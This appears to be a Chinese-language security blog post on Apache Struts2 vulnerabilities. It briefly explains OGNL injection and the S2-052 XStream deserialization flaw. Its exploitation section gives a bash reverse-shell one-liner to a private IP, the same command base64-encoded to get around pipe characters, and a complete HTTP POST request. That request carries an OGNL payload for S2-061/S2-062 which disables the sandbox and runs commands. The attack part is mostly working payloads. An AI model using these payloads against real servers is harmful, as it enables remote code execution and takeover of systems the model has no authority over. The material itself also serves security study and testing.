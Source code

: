 +++
ShowToc = true
TocOpen = true
title = 'Struts2'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'Java安全'
+++

# 一、Struts2

Struts2框架是一个用于开发Java EE网络应用程序的开放源代码网页应用程序架构。它利用并延伸了Java Servlet API，鼓励开发者采用MVC架构。Struts2以WebWork优秀的设计思想为核心，吸收了Struts框架的部分优点，提供了一个更加整洁的MVC设计模式实现的Web应用程序框架。

# 二、漏洞原理

Struts2设计了一套OGNL的模式来操作数据。OGNL（Object Graph Navigation Language）即对象图形导航语言，通过某种表达式语法，存取Java对象树中的任意属性、调用Java对象树的方法、同时能够自动实现必要的类型转化,是语义字符串与Java对象之间沟通的桥梁。OGNL支持对象方法调用，支持类静态的方法调用和值访问，在java中的格式：


@[类全名]@[方法名|值名]


@java.lang.String@format('foo %s', 'bar')| APP_NAME；

Struts2的漏洞数量众多，其本质都是一样的(除了S2-052以外)，都是Struts2框架执行了恶意用户传进来的OGNL表达式，可以造成“命令执行、服务器文件操作、打印回显、获取系统属性、危险代码执行”等，只不过需要精心构造不同的OGNL代码而已。

S2-052漏洞


这个漏洞也算是轰动一时，其实，跟注入OGNL表达式，达到远程代码执行的方式还不大一样，S2-052漏洞是一种XML反序列化漏洞。漏洞本质是Struts2 REST插件的XStream组件存在反序列化漏洞，当使用XStream组件对XML格式的数据包进行反序列化操作时，没有对数据内容进行有效验证，存在反序列化后远程代码执行安全隐患。

同时struts2的漏洞时间也很长，S2-001发现时间为2007年，而较近的S2-061时间为2020年，跨度很大。

# 三、漏洞特征

.action   .do的请求路径

# 四、漏洞利用

S2-057 以下直接梭哈：Struts2_工具v18.09

S2-061  S2-062

编写反弹shell代码





bash -i >& /dev/tcp/192.168.52.130/3333 0>&1





反弹shell涉及到管道符问题要将命令进行base64编码





bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUyLjEzMC8zMzMzIDA+JjE=}|{base64,-d}|{bash,-i}

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```